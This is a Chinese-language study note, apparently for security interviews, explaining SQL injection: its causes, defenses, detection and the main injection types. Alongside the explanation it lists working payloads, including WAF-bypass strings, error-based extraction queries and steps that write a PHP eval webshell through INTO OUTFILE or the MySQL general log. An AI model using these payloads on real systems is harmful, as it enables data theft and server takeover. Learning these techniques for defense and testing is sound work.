

- [SQL注入成因？(!!)](#sql注入成因)
- [SQL注入防护方法？ (!!)](#sql注入防护方法-)
- [SQL注入存在的地方](#sql注入存在的地方)
- [SQL注入如何判断(!!)](#sql注入如何判断)
- [SQL注入绕过技巧(!!)](#sql注入绕过技巧)
- [SQL注入主要类型？](#sql注入主要类型)
- [联合查询的运用场景？](#联合查询的运用场景)
- [报错注入的函数有哪些？](#报错注入的函数有哪些)
- [布尔型注入方式？使用的函数？](#布尔型注入方式使用的函数)
- [时间盲注方式？常用函数？](#时间盲注方式常用函数)
- [堆叠注入？](#堆叠注入)
- [宽字节注入？](#宽字节注入)
- [HTTP头部注入可能参数点？原因？](#http头部注入可能参数点原因)
- [二阶注入？](#二阶注入)
- [sql注入写文件用的函数？(!!)](#sql注入写文件用的函数)
- [sql注入写shell的条件？(!!)(利用sql注入拿到webshell)](#sql注入写shell的条件利用sql注入拿到webshell)
- [如何判断不同的数据库](#如何判断不同的数据库)
- [不同数据库获取数据信息的过程](#不同数据库获取数据信息的过程)
- [mysql 5.0以上和以下区别](#mysql-50以上和以下区别)
- [参考链接：](#参考链接)


## SQL注入成因？(!!)

根本原因：未经检查或未经充分检查的用户输入数据，意外变成了代码被执行。

根本上防止：避免数据变成代码被执行，分清数据和代码的界限

一个是在**动态构造SQL语句**时，产生一些比较危险的语句，在执行SQL之后，获取了多余的数据；
另一个是**数据库的配置**，一个SQL查询应该只能查询到数据库允许被查询到的数据。

- 动态字符串的构造


1. 转义字符处理不当   对于数据库而言，' '单引号内的内容均是数据，是需要查询的

2. 类型处理不当

3. 查询语句组装不对

4. 错误处理不当

5. 多个提交处理不当

- 数据库配置不安全

**两个关键条件：**

1. 用户可以控制输入
2. 程序执行的代码拼接了用户输入的数据，把用户数据当代码执行。

**本质：**
数据和代码未分离，数据当成代码执行

- 对用户端输入过滤不严格
- 可以带入数据库中进行查询操作

## SQL注入防护方法？ (!!)
从不同角度切入：

**1. 传入的字符**
   - 对输入的特殊字符(如, () * & % # 等等)进行Escape转义或过滤、替换、删除等处理
     - escape() 会对字符串中除了ASCII字母、数字和特定符号外，进行转义编码，编码成字符的16进行格式值，当该值小于等于0xFF时,用一个2位转移序列: %xx 表示. 大于的话则使用4位序列:%uxxxx 表示。
   - 输入内容的数据类型必须确定，要么数字型，要么字符型 
  
**2. 查询操作本身**
   - 使用安全的API，即所有查询语句使用标准化的数据库查询语句API接口，设定语句的参数进行过滤一些非法的字符，防止用户输入恶意字符传入数据库中执行sql语句。(如果直接将获取的参数传入预编译语句中，也有可能产生**二次注入**，即从数据库中查询出**恶意数据**)
   >**数据库预编译：**
   >
   >预编译将一次查询分两次交互完成，第一次交互发送查询语句的模板，由后端的SQL引擎进行解析为AST或Opcode；第二次交互发送数据，带入AST或Opcode中执行，此时语法解析已经完成，因此sql执行的逻辑不会改变，也就不会将输入的数据当作字符执行。
   >
   > (1) 数据库SQL语句编译特性：
    **数据库接受到sql语句之后，需要词法和语义解析，优化sql语句，制定执行计划**。这需要花费一些时间。但是很多情况，我们的一条sql语句可能会反复执行，或者每次执行的时候只有个别的值不同（比如query的where子句值不同，update的set子句值不同,insert的values值不同）。
   > 
   >(2) 减少编译的方法
    如果每次都需要经过上面的词法语义解析、语句优化、制定执行计划等，则效率就明显不行了。为了解决上面的问题，于是就有了预编译，**预编译语句就是将这类语句中的值用占位符替代，可以视为将sql语句模板化或者说参数化**。**一次编译、多次运行，省去了解析优化等过程**。
   > 
   >(3) 缓存预编译
    预编译语句被DB的编译器编译后的执行代码被缓存下来,那么下次调用时只要是相同的预编译语句就不需要编译,只要将参数直接传入编译过的语句执行代码中(相当于一个涵数)就会得到执行。
    并不是所以预编译语句都一定会被缓存,数据库本身会用一种策略（内部机制）。
   > 
   >(4) 预编译的实现方法
    预编译是通过PreparedStatement和占位符来实现的。
   >
   >mysql:
   >
   >$ mysqli=new mysqli();
   >
   >$ mysqli->prepare($sql);
   >
   >预编译特殊例子：
   >
   >`select * from user where name like '%%%';`%在mysql中是关键字，会使like条件失效，查询出所有的用户信息

  
  
  
  
**3. 数据库本身**
   - 对用户的操作权限进行安全限制，普通用户只给普通权限，管理员后台的操作权限要放开，尽量减少对数据库的恶意攻击。
   - 执行的错误信息不要返回到客户端显示，（如字符错误，数据库的报错信息）尽量减少泄露信息

## SQL注入存在的地方
1. **用户输入**
   
   用户输入的任何与后端数据库产生交互的内容，都有可能产生SQL注入。
   可以拦截GET或POST请求，修改其中的参数内容来实现恶意代码注入。

2. **HTTP请求头**

   服务器端可能会保存用户的IP及User-Agent等信息，此时，攻击者可以在X-Forwarded-For 或UA等请求头字段中构造语句进行SQL注入

3. **二阶注入**
  
   攻击者在HTTP请求中提交恶意输入，服务端将恶意输入保存在数据库中，攻击者紧接着提交第二次HTTP请求。为处理第二次请求，服务端需要查找数据库，触发了之前存储的恶意输入，并将结果返回给攻击者。攻击者需要通过两次独立请求才可以实现SOL注入的目的，这种攻击方式因此得名二阶注入。


## SQL注入如何判断(!!)
  单条件查询：select * from table where id=?
  多条件查询：select * from table where id1=? and id2=?

  1.首先需要判断字符型还是整型：
  对于一个可能的注入点：
  - ?id=1   正常显示
  - 模式1：
    - 基于该种模式还有很多种变型，核心思想还是（字符型闭合已有的SQL语句，）增加一些附加条件来判断条件是否执行，若执行了说明存在sql注入。
    - 闭合已有SQL语句的方式：' " ) ') 
    - ?id=1 and 1=1   显示正常
    - ?id=1 and 1=2   显示异常  --》整型注入
    - ?id=1' and '1'='1   显示正常
    - ?id=1' and '1'='2   显示异常 --》字符型注入
  - 模式2：
    - 后端的waf过滤了关键字and or--》使用连接符
    - 与
      - and 
      - &&
      - &
    - 或
      - or
      - ||
      - |
    - 异或
      - ^

  2.判断出存在注入后，需要确定**注入类型**，再继续进一步的操作。

## SQL注入绕过技巧(!!)
- 编码绕过
  - 大小写
  - url编码
  - html编码
  - 十六进制编码
  - unicode编码
- 注释
  - // — — + — - # /**/ ;%00
  - 内联注释用的更多，它有一个特性 /!**/ 只有MySQL能识别
  - e.g. index.php?id=-1 /!UNION/ /!SELECT/ 1,2,3
- 只过滤了一次时
  - union => ununionion
- 相同功能替换
  - **截取字符串**
    - select mid(string,1,1)
    - select substr(string from 1 for 1)
    - select replace(LPAD(string,1,1),LPAD(string,1-1,1),"")  # 读取string的第一位
    - select replace(LPAD(string,2,1),LPAD(string,2-1,1),"")  # 读取string的第二位
    > LPAD(str,len,padstr) 返回字符串str，用padstr左填充至len字符长度
    
  - **逗号过滤**
    - case when then else 代替if
    - union select 1,2,3-->union select * from (select 1)a join (select 2)b join (select 3)c
    - limit 2,1 -->limit 1 offset 2
  - **比较表达式过滤(=<>)**
    - 利用**strcmp**  `if(abs(strcmp((ascii(mid(user()from(1)for(2)))),114))-1,1,0)`
    - 利用**find_in_set**  `select find_in_set(ord(mid(user() from 1 for 1)),114)`
    - 利用**regexp**  `select ord('r') regexp 115`;
    - `least(ord('r'),115)`  返回N个数中最小的
    - `greatest(ord('r'),113)`  返回N个数中最大的
    - `expr between n and m`  当expr值大于n小于m时返回1，否则返回0
  - **函数替换**
    - substring / mid / sub
    - ascii / hex / bin
    - benchmark / sleep
  - **变量替换**
    - user() / @@user
  - **符号和关键字**
    - and / &
    - or / |
- HTTP参数
  - HTTP参数污染
    - id=1&id=2&id=3 根据容器不同会有不同的结果
  - HTTP分割注入
- 缓冲区溢出
  - 一些C语言的WAF处理的字符串长度有限，超出某个长度后的payload可能不会被处理
- 二次注入有长度限制时，通过多句执行的方法改掉数据库该字段的长度绕过


## SQL注入主要类型？

- 按数据类型分类
  - 数字型注入
  - 字符型注入
- 按注入语法分类
  - 联合注入
  - 报错注入
  - 布尔注入
  - 时间注入
  - 堆叠注入
  - Cookie注入
- 按不同注入点
  - select注入
  - insert注入
  - update注入
  - delete注入

## 联合查询的运用场景？

网页上会将服务端执行的SQL语句查询结果直接显示在页面上，显示数据的位置为**显示位**。

- union select 要求查询列数一致。
- concat、concat_ws将多列结果拼接为一列
- group_concat将多行结果拼成一行输出

## 报错注入的函数有哪些？

- **floor函数**
select count(*),concat(/*payload*/,floor(rand(0)*2)) as x from user group by x;

    floor()报错注入的原因是group by在向临时表插入数据时，由于rand()多次计算导致插入临时表时主键重复，从而报错，又因为报错前concat()中的SQL语句或函数被执行，所以该语句报错且被抛出的主键是SQL语句或函数执行后的结果。

- **extractvalue报错**

    它接收两个字符串参数，第一个参数可以传入目标xml文档，第二个参数是用Xpath路径表示法表示的查找路径。这里如果Xpath格式语法书写错误的话，就会报错。
    可以利用concat函数将想要获得的数据库内容拼接到第二个参数中，报错时作为内容输出
    ?id=1  and extractvalue(1, (payload))
    eg payload:
    concat(0x7e,(select @@version),0x7e) 

- **updatexml报错**
  
    UpdateXML(xml_target, xpath_expr, new_xml)xml_target：需要操作的xml片段
    
    xpath_expr：需要更新的xml路径(Xpath格式)
    
    new_xml：更新后的内容
    
    不过这些参数都不太重要，这里和上面的extractvalue函数一样，当Xpath路径语法错误时，就会报错，报错内容含有错误的路径内容：

    ?id=1  and updatexml(1,(payload),1)
    
    eg payload:
    
    concat(0x7e,(select @@version),0x7e))
    
    注意：extractvalue和updatexml的查询结果均有长度限制，显示结果可能不全，可分多次查询，利用limit、reverse、left、right等
    
    ExtractValue()和UpdateXml()类似，它们的第二个参数使用Xpath路径法表示的查找路径。这里如果Xpath格式语法书写错误的话，就会报错。利用concat函数将想要获得的数据库内容拼接到第二个参数中，报错时作为内容输出。

## 布尔型注入方式？使用的函数？
原理：
通过注入我们的恶意语句来得到使得服务器将我们的恶意语句（存在判断数据是否正确）带入到查询中，然后通过返回的页面来判断是否是正确的判断逻辑。

1.如果页面既没有显示位,也没有报错提示的话,可以使用布尔注入.

2.通过插入一些语句查看结果来判断是否存在布尔注入.

常用函数：
- length(select database())>5  #length()里可以放查询语句,用来判断查询结果的长度

- exists( )      #exists()里可以放查询语句,用来判断查询结果是否存在

- ascii( )     #ascii()里可以放查询语句,用来把查询结果转换为ascii的值
  
- ord(string)     返回字符串首字母的ascii码值
- substr( string,pos,length)  #用来截取查询结果,string可以用查询语句代替,pos表示截取位置--下标从1开始,length表示截取的长度;
- mid(string,start,length)  返回字符串从start位置开始的长度为length的子字符串

## 时间盲注方式？常用函数？

如果布尔注入也不行，则可使用时间盲注。
- IF(Condition,A,B)函数 
  - 当Condition为TRUE时，返回A；当Condition为FALSE时，返回B。
  - eg：if(ascii(substr(“hello”, 1, 1))=104, sleep(5), 1)
  - Condition为常用上面的几个函数

- sleep和benchmark函数

## 堆叠注入？

sql语句一般以;结尾，代表执行语句的结束。注入时添加;来闭合前面的sql语句，再加上要执行的sql语句，即可达到目的。

比较灵活，可以执行任意的SQL语句。

限制：
- 不是每一种环境都可以执行，可能受到API或者数据库引擎限制。
- 通常web只返回一个查询结果，堆叠注入语句的结果会被忽略
- 需要了解数据库相关信息，表名、列名


使用函数：

mysqli_multi_query用于执行一个SQL语句或多个由分号分隔的SQL语句。

一般使用mysql_query

使用方式：
  - DNSLog数据外带
  - 开启日志getshell

## 宽字节注入？
利用条件：
  - 数据库的编码为GBK
    - set character_set_client=gbk
    - **防御：****character_set_client=binary**
  - 后端进行转义符转义，`addslashes()、mysql_real_escape_string()`或其他转义函数

    eg:
    mysql数据库使用gbk编码时，会认为**两个字符是一个汉字**（前一个ascii码要大于128（比如%df），才到汉字的范围）
    在输入%df%27时，addslashes函数会自动在%27(')前加上转义符%5c(/)，即输入变为了`%df%5c%27`，但在mysql执行sql语句时，会将`%df%5c`作为一个宽字符，一个汉字，然后%27独立出来成了单引号，从而实现注入攻击。
    
    %df%27 —>%df%5c%27 —>(某个汉字)'
    
## HTTP头部注入可能参数点？原因？
**原因：**

用户提交的参数未做过滤就直接输出到HTTP响应头中，则可利用该漏洞来注入到HTTP响应头中。

在网站代码中，ip,cookie,referer,user-agent等字段与数据库有交互

代码中使用了php超全局变量$_SERVER[]

常见注入点：

- User-Agent：浏览器版本
- COOKIE: 网站为了辨别用户身份、进行session跟踪而存储在用户本地终端上的数据
- X-Forwarded-For：获取HTTP请求端真实IP
- Client-IP: 获取IP
- Referer：浏览器向Web服务器表名自己是从哪个页面链接过来的
- Host：访问的Web服务器的域名/IP和端口号

防御：

- 在设置HTTP响应头的代码中，过滤回车换行（%0d%0a）字符
- 不采用有漏洞版本的Apache服务器
- 对参数的合法性校验以及长度限制，谨慎的使用用户传入的参数作为HTTP返回包的header设置。

## 二阶注入？
一阶注入：（普通的SQL注入）发生在一个HTTP请求中

**攻击过程：**	
1. 攻击者在HTTP请求中提交恶意sql语句
2. 应用处理恶意输入，使用恶意输入动态构建SQL语句-
3. 如果攻击实现，在响应中向攻击者返回结构

**二阶注入：**
1. 攻击者在一个HTTP请求中提交恶意输入
2. 用于将恶意输入保存在数据库中
3. 攻击者提交第二个HTTP请求
4. 为处理第二个HTTP请求，应用检索存储在后端数据库中的恶意输入，动态构建SQL语句
5. 如果攻击实现，在第二个请求的响应中向攻击者返回结果

**原因：**
- 对存入的数据没有进行检查
- 对从数据库中取出来的数据信任，直接使用

**举例：**


## sql注入写文件用的函数？(!!)
**suctf-2018 Multi Sql**可练习

1.**union select写入**

- select '***' into outfile '路径'
- select '***' into dumpfile '路径'

eg：`select '一句话木马' into dumpfile 'd:\\wwwroot\baidu.com\nvhack.php';`

注：若waf将select过滤了，可以考虑使用sql预定义语句。

`
set @num=hex编码后的select语句
prepare sql from @num;		
execute sql;
`

2.**分隔符写入**

`?id=1 INTO OUTFILE '物理路径' lines/fields/columns terminated by  （一句话hex编码）#`

注意：一句话木马需要用''括起来，并使用hex先编码

3.**利用log写入**

新版本的MySQL设置了导出文件的路径，很难在获取Webshell过程中去修改配置文件，无法通过使用select into outfile来写入一句话。这时，我们可以通过修改MySQL的log文件来获取Webshell。

具体权限要求：数据库用户需具备Super和File服务器权限、获取物理路径。

```
show variables like '%general%';                        #查看配置
set global general_log = on;                            #开启general log模式
set global general_log_file = 'E:/study/WWW/evil.php';    #设置日志目录为shell地址
select '<?php eval($_GET/[g/]);?>'                     #写入shell
set global general_log=off;                             #关闭general log模式
```


## sql注入写shell的条件？(!!)(利用sql注入拿到webshell)
- **secure_file_priv 支持数据导入导出**
  - 如果secure_file_priv=NULL，MySQL服务会禁止导入和导出操作。
  - 通过命令查看secure-file-priv`的当前值，确认是否允许导入导出以及导出文件路径。
  - show variables like '%secure_file_priv%';
  - select count(file_priv) from mysql.user
- 当前数据库用户权限，用户拥有FILE权限，即在写入文件的路径中有写入权限
- web目录的物理路径(绝对路径)
  - 一般可以通过phpinfo函数，测试页面，及报错信息，搜素引擎，目录爆破的方式来获取网站的真实物理路径

## 如何判断不同的数据库


## 不同数据库获取数据信息的过程
  **1.mysql数据库**
  - 获取数据库  
    - select database()
    - show databases
    - select schema_name from information_schema.schemata
  - 获取数据表  
    - select group_concat(table_name) from information_schema.tables where table_schema='库名'
    - 当information被过滤，Mysql 5.6以上版本，还存在两张表 innodb_table_stats和innodb_index_stats
      - select group_concat(table_name) from mysql.innodb_table_stats/innodb_index_stats where database_name=database();
  - 获取列名
    - select group_concat(column_name) from information_schema.columns where table_name='库名'
  
  **2.SQL Server**
  - 获取数据库名
    - SELECT Name FROM Master.SysDatabases ORDER BY Name
  - 获取数据表  
    - SELECT Name FROM DatabaseName.SysObjects Where XType='U' ORDER BY Name 
    - (XType='U' 表示所有用户表)
    - (XType='S' 表示所有系统表)
  - 获取列名
    - SELECT Name FROM SysColumns WHERE id=Object_Id('TableName')
  
  **3.POSTSQL**
  - 获取数据库名
    -  SELECT datname FROM pg_database;
  - 获取数据表  
    -  SELECT tablename FROM pg_tables;   
  - 获取列名
    -  select column_name from information_schema.columns where table_name='表名'

## mysql 5.0以上和以下区别
- 在Mysql5.0以上的版本中加入了一个information_schema这个系统表，这个系统表中包含了该数据库的所有数据库名、表名、列表，可以通过SQL注入来拿到用户的账号和口令，而Mysql5.0以下的只能暴力跑表名；
- 5.0 以下是多用户单操作，5.0 以上是多用户多操作。


## 参考链接：
- [SQL注入绕过技巧](https://www.cnblogs.com/Vinson404/p/7253255.html)
- [深入理解SQL盲注](https://www.anquanke.com/post/id/170626)
- [SQL盲注的简单分析](https://xz.aliyun.com/t/6595#toc-1)